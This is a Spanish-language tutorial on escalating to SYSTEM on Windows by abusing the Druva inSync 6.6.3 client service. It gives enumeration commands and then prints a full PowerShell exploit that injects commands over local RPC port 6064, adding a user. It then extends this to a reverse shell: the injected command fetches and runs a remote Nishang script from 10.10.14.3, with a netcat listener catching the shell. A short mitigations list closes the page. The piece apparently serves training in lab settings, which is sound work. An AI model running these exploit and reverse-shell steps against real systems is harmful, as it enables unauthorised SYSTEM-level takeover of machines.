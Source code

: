 # Escalada de Privilegios en Windows - Servicios Vulnerables

## Introducción

En sistemas bien parcheados y configurados, aún es posible escalar privilegios si los usuarios pueden instalar software o si existen aplicaciones/servicios de terceros vulnerables en la organización. Es común encontrar diversos servicios y aplicaciones en estaciones de trabajo Windows durante evaluaciones de seguridad. Algunos permiten escalar a SYSTEM, otros pueden causar denegaciones de servicio o exponer datos sensibles.

---

## Enumeración de Programas Instalados

Para identificar software potencialmente vulnerable:

```cmd
wmic product get name
```

**Ejemplo de salida:**
```
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Druva inSync 6.6.3
VMware Tools
Microsoft Update Health Tools
```

El software **Druva inSync 6.6.3** es vulnerable a inyección de comandos mediante un servicio RPC en el puerto 6064, ejecutándose como `NT AUTHORITY\SYSTEM`.

---

## Enumeración de Puertos Locales

Confirmar si el servicio está escuchando en el puerto 6064:

```cmd
netstat -ano | findstr 6064
```

**Ejemplo de salida:**
```
TCP    127.0.0.1:6064   0.0.0.0:0   LISTENING   3324
```

---

## Identificar el Proceso

Relacionar el PID 3324 con el proceso activo:

```powershell
get-process -Id 3324
```

**Salida esperada:**
```
ProcessName: inSyncCPHwnet64
```

---

## Confirmar el Servicio

Verificar que el servicio de Druva inSync esté activo:

```powershell
get-service | ? {$_.DisplayName -like 'Druva*'}
```

**Salida:**
```
Running  inSyncCPHService   Druva inSync Client Service
```

---

## Explotación del Servicio Vulnerable

### PoC en PowerShell

[PoC - Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)](https://www.exploit-db.com/exploits/49211)

```]

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

---

### Modificación para Reverse Shell

1. Crear un **script de reverse shell** en PowerShell:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

2. Hospedar el script:

```bash
python3 -m http.server 8080
```

3. Modificar el PoC para ejecutar el script remoto:

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

Ese script **shell.ps1**, es una reverse shell en powershell descargada de [aquí](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
La descargamos en máquina atacante, y al final del script añadimos la llamada a la función:

````shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
````

4. Configurar un **listener** en Netcat:

```bash
nc -lvnp 9443
```

5. Ejecutar el PoC en la máquina víctima. Si todo funciona, obtendrás una shell con privilegios **SYSTEM**:

```powershell
whoami
# nt authority\system
```

---

## Mitigaciones

- Restringir permisos de instalación de software en usuarios finales.
- Implementar **principio de privilegios mínimos**.
- Usar **whitelisting** para aplicaciones autorizadas.

---
